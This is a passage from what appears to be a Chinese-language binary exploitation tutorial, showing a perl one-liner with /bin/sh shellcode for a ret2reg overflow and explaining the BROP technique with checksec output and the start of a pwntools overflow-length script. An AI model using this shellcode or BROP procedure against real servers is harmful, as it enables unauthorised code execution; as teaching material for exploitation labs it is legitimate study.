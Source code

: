 或者使用 prel 命令：

```plain
./ret2reg $(perl -e 'printf "\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\x31\xc0\xb0\x0b\xcd\x80" . "A"x499 ."\x73\x83\x04\x08"')
```

## BROP

### 原理

BROP 是没有对应应用程序的源代码或者二进制文件下，对程序进行攻击，劫持程序的执行流。

攻击条件：

1.  源程序必须存在栈溢出漏洞，以便于攻击者可以控制程序流程。
2.  服务器端的进程在崩溃之后会重新启动，并且重新启动的进程的地址与先前的地址一样（这也就是说即使程序有 ASLR 保护，但是其只是在程序最初启动的时候有效果）。目前 nginx, MySQL, Apache, OpenSSH 等服务器应用都是符合这种特性的。

见[https://wiki.x10sec.org/pwn/linux/user-mode/stackoverflow/x86/medium-rop/#\_13](https://wiki.x10sec.org/pwn/linux/user-mode/stackoverflow/x86/medium-rop/#_13)

### 思路

1.  **判断栈溢出长度**，如有必要可以通过栈溢出来泄露 canaries、rbp 和返回地址
2.  寻找能够返回到 main 函数的 gadgets（通常称为 **stop\_gadget**）
3.  寻找 **brop gadgets**（例如 \_\_libc\_csu\_init 中的 gadgets），定位 pop rdi ; ret 的地址
4.  寻找 **puts 或 write 函数的 plt**，用于 leak 其它地址的值
5.  **dump plt 表**，用于 leak 所需函数的 got 地址
6.  通过 leak 到的 got 地址，**找到对应 libc 版本**，通过 libc 执行系统命令进行 **getshell**

### 利用

1、checksec:

```plain
qufeng@qufeng-virtual-machine:~/Desktop/brop$ checksec brop
[*] '/home/qufeng/Desktop/brop/brop'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

64 位，只开启了 NX 堆栈保护，没有开启 canary

2、判断栈溢出长度：

可以使用之前的方法，这里使用下面脚本：

```plain
# -*- coding: utf-8 -*-
from pwn import *
from LibcSearcher import *


def GetBufferLength():
    i = 1
    while 1:
        try:
            p = process('./brop')
            p.recvuntil('WelCome my friend,Do you know password?\n')
            p.send('A' * i)
            out = p.recv()
            p.close()
            # 没有返回到 main 函数
            if not out.startswith('No password'):#startswith 用来判断返回的值以什么开头，判断回传数据
                print 'Buffer flow length:%d'%(i-1)
```